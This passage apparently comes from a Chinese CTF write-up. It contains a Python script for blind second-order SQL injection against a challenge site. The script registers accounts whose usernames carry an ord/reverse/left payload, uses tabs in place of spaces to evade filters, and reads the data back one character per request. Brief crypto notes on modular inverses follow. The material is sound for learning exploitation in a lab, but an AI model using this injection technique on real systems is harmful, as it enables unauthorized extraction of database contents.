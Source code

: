```
                  "email": "{}@qq.com".format(ran), "password": "admin", "submit": "注册"}
    s.post(url,data=burp0_data)
    return s

def login(s,ran):
    url = "https://unforgettable.liki.link/login"
    burp0_data = {"email": "{}@qq.com".format(ran), "password": "admin", "submit": "登录"}
    s.post(url,data=burp0_data)
    return s

def finda(s):
    url = "https://unforgettable.liki.link/user"
    text = s.get(url).text
    res = re.findall('<h4 class="modal-title" id="myModalLabel" align="center">Username: (.*?)</h4>',text,re.S)[0]
    return res
def run():
    session = requests.session()
    ran  = random.randint(1000000, 999999999)
    table_name = ''
    for i in range(1,32):
        ran  = random.randint(1000000, 999999999)
        payload = "0'^ord(reverse(left(({}),{})))#{}".format(evsql, i, ran).replace(' ', '\t')
        s = register(session,payload,ran)
        s = login(s,ran)
        a = finda(s)
        table_name += chr(int(a))
        print(table_name)
    print(table_name)
        
run()
```



## Cry

#### 0x01 signin

如果p是一个质数，而整数a不是p的倍数时，下面的等式变换成立：

![image-20210224221602808](https://i.loli.net/2021/02/24/pRmlzYXUFS4WEQ8.png)

```
gmpy2.invert(a, p) 这是用来求逆元的函数
```

#### 0x02  password

题目大概长这个样子

![image-20210224231815758](https://i.loli.net/2021/02/24/l95AWh3bqIEPgyt.png)
